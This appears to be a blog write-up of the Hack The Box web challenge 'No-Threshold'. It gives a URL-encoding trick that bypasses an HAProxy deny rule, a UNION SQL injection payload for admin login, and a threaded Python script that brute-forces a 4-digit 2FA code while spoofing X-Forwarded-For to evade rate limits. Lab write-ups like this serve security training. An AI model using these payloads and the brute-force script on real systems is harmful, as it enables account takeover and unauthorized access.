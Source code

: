 ```yaml
---
title: 'Write-Up of a Web challenge From HTB: No-Threshold'
date: '2023-12-17'
tags: ['Web Exploitation']
draft: false
summary: 'writeup detailing the solving process of the No-Threshold web challenge from HACK THE BOX.'
---
```


## Web Challenge from Hack The Box

##### Challenge level:- Medium
##### Challenge Description:
Prepare for the finest magic products out there. However, please be aware that we've implemented a specialized protective spell within our web application to guard against any black magic aimed at our web shop.🔮🎩


#### **Website:**

Upon starting the challenge on HackTheBox, we are given a URL to visit furthermore, we are also given the source code of the vulnerable application to download.
Upon visiting the web application, it became apparent that it functioned as an online shop where the ability to make purchases was restricted solely to logged-in users.

![logged_only.png](/static/images/logged_only.png)

navigating to the /auth/login page : 

![forbidden_access.png](/static/images/forbidden_access.png)


the response was   `403 Forbidden` indicating that  the request is forbidden by administrative rules.
Examining the source code, particularly focusing on the HAProxy configuration file `haproxy.cfg`.

![haproxyconfig.png](/static/images/haproxyconfig.png)
  
The `http-request deny if { path_beg /auth/login }` configuration in HAProxy is a directive that denies access to any HTTP request whose path begins with `/auth/login`.
After numerous attempts to understand how to handle this restriction, I discovered that URL encoding was adequate for bypassing it.
URL-encoding of `auth`=`%61%75%74%68`


![urlencode.png](/static/images/urlencode.png)
  
Upon entering the login page, my subsequent action was to attempt to log in.
Inspecting the code handling the login process:

![444444444444444444444444.png](/static/images/444444444444444444444444.png)

the `login` function uses the function `query_db` to query the database which takes a SQL  query as a parmeter.
the SQL query used to retrieve a user seems to be vulnerable.Using this payload (`testsq' UNION ALL SELECT  username, password FROM users WHERE username = 'admin `) ,I was able to login as an admin.

URL-Encoding(`testsq' UNION ALL SELECT  username, password FROM users WHERE username = 'admin `)==  `%74%65%73%74%73%71%27%20%55%4e%49%4f%4e%20%41%4c%4c%20%53%45%4c%45%43%54%20%20%75%73%65%72%6e%61%6d%65%2c%20%70%61%73%73%77%6f%72%64%20%46%52%4f%4d%20%75%73%65%72%73%20%57%48%45%52%45%20%75%73%65%72%6e%61%6d%65%20%3d%20%27%61%64%6d%69%6e`


![elmoudir.png](/static/images/elmoudir.png)

Once  getting logged , I was redirected to a 2fa code verification page.
according to the login function ,once logged ,the function `set_2fa_code(4)` is called to  generate a random 4-digit Two-Factor Authentication (2FA)  code  and set it in the uwsgi cache valid for 5 minutes. 


![2fa.png](/static/images/2fa.png)

In this scenario, a viable solution could involve employing a brute-force attack, particularly since the target number is limited to a 4-digit length.
While employing Burp Intruder (with attack mode: `sniper`) , the first few requests were successful, but the rest resulted in a 429 status error code.

Upon revisiting the HAProxy configuration, I identified the cause.

![429_statuscode.png](/static/images/429_statuscode.png)

this HAProxy configuration assure if a client makes more than 20 requests in a short timeframe, they will be denied access with a 429 status code. 
An important thing to mention is that the information used to identify clients is taken from the `X-Forwarded-For` header.

That's why I wrote a python script that brute force the 2fa code and changing
the `X-Forwarded-For` every 4 requests.

```python
import requests
from concurrent.futures import ThreadPoolExecutor
def load_wordlist(wordl):
	with open(wordl,'r') as wor:
	return wor.read().splitlines()
	  
def send_requests(codes_2fa,n):
	url='http://188.166.175.58:30948/auth/verify-2fa'
	headers={	
	'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',	
	'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
	'Accept-Language': 'en-US,en;q=0.5',	
	'Accept-Encoding': 'gzip, deflate, br',	
	'Content-Type': 'application/x-www-form-urlencoded',	
	'Content-Length': '13',	
	'Origin': 'http://188.166.175.58:30948',	
	'Connection': 'close',	
	'Referer': 'http://188.166.175.58:30948/auth/verify-2fa',	
	'Upgrade-Insecure-Requests': '1',	
	'Sec-Fetch-Dest': 'document',	
	'Sec-Fetch-Mode': 'navigate',	
	'Sec-Fetch-Site': 'same-origin',	
	'Sec-Fetch-User': '?1',
	}
	
	base_ip='192.168.'
	current_ip_suffix=[1,1]	
	with ThreadPoolExecutor(max_workers=100) as executor:
		futures=[]	
		for i,code_2fa in enumerate(codes_2fa,start=1):
			ip=base_ip+str(current_ip_suffix[0])+'.'+str(current_ip_suffix[1])
			future=executor.submit(send_request,ip,code_2fa,headers,url)
			futures.append(future)		
			if i% n ==0:
				current_ip_suffix[1]+=1			
			if current_ip_suffix[1]>254:
				current_ip_suffix[1]=1
				current_ip_suffix[0]+=1			
			if current_ip_suffix[0]>254:
				current_ip_suffix=[1,1]		
		for future in futures:
			future.result()
			
def send_request(ip,code_2fa,headers,url):
	headers['X-Forwarded-For']=ip	
	data={'2fa-code':str(code_2fa)}	
	response=requests.post(url,headers=headers,data=data)
	if 'Invalid 2FA Code!' not in response.text:	
		print(f'IP :{ip},2FA:{code_2fa}:{response.text}')
  

if __name__=='__main__':
my_wordlist='/home/lwess/Downloads/SecLists-master/Fuzzing/4-digits-0000-9999.txt'
codes_2fa=load_wordlist(my_wordlist)
n=4
send_requests(codes_2fa,n)
```


Running this python script :


![flag2.png](/static/images/flag2.png)

# **Summary:**

The `No-Threshold` web challenge presented by Hack The Box was an exceptional experience. This distinctive challenge centers on a misconfiguration in HAProxy that enables unauthorized access through URI encoding. The journey unfolds by gaining admin privileges through SQL injection exploitation and culminates in overcoming the 2FA-code check through a brute-force attack. Successfully solving the challenge requires chaining together all identified vulnerabilities to ultimately obtain the flag




